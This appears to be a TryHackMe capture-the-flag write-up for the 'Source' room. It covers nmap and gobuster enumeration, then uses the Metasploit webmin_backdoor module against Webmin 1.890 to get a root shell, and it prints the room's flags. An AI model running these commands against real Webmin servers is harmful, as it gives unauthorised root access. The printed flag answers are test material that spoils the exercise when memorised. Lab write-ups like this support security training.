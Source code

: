 
# TryHackMe - Source 

##  Overview
- **Room:** Source  
- **Difficulty:** Easy  
- **Tags:** Enumeration, Webmin, Exploitation, Privilege Escalation

This room focuses on exploiting a vulnerable Webmin service to gain root access.

---

##  Table of Contents
1. [Enumeration](#-enumeration)
2. [Web Enumeration](#-web-enumeration)
3. [Exploitation](#-exploitation)
4. [Post-Exploitation](#-post-exploitation)
5. [Flags](#-flags)
6. [Conclusion](#-conclusion)

---

##  Enumeration

### Nmap Scan
We start by scanning the target with **nmap**:

```bash
sudo nmap -sC -sV -Pn -p- {target_IP}
```

- **-sC**: Run default scripts  
- **-sV**: Detect service versions  

**Results:**

```
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
10000/tcp open  http    MiniServ 1.890 (Webmin httpd)
```

 Open ports:  
- **22/tcp** → SSH  
- **10000/tcp** → Webmin  

---

##  Web Enumeration
Visiting `https://{target_IP}:10000` revealed a **Webmin login page**.

- Default credentials were tested → **failed**  
- Directory enumeration with **gobuster** produced no useful results:

```bash
gobuster dir -u https://{target_IP}:10000 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
```

---

##  Exploitation

### Searchsploit
We check for Webmin exploits:

```bash
searchsploit webmin
```

Several **RCE exploits** were available. Since the Webmin version is vulnerable, we proceed with **Metasploit**.

### Metasploit
Start `msfconsole` and search for Webmin exploits:

```bash
msf6 > search webmin
```

We use the **Webmin backdoor exploit**:

```bash
use exploit/linux/http/webmin_backdoor
set RHOST {target_IP}
set RPORT 10000
set LHOST tun0
set SSL true
exploit
```

 This immediately provided a **root shell**.

---

##  Post-Exploitation

To upgrade the shell to a stable TTY:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

We now have a fully interactive **root shell**.

---

##  Flags

Retrieve flags from the machine:

```text
user.txt → THM{SUPPLY_CHAIN_COMPROMISE}
root.txt → THM{UPDATE_YOUR_INSTALL}
```

---

##  Conclusion

- Enumerated open ports with `nmap`  
- Identified Webmin service on port 10000  
- Verified vulnerable Webmin version  
- Exploited with **Metasploit `webmin_backdoor`**  
- Achieved **root access** and captured flags  

This room is ideal for practicing **service enumeration** and **Metasploit exploitation**.

